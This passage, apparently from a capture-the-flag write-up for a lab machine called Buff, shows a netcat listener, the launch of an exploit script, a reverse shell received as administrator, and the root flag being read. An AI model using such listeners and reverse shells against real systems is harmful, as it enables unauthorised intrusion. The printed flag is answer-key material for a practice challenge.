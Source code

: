 #### Localhost
```
root@kali:~# nc -nlvp 4444
Listening on 0.0.0.0 4444

```

#### Localhost (another window)
```
root@kali:~# python 48389.py 
```

#### Localhost (netcat window)
```
root@kali:~# nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.198 49689
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator
```

As always, `root.txt` is in the directory `C:\Users\Administrator\Desktop>`.
```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
c4d1a59966243bf66b7f1fda07f2ead9
```
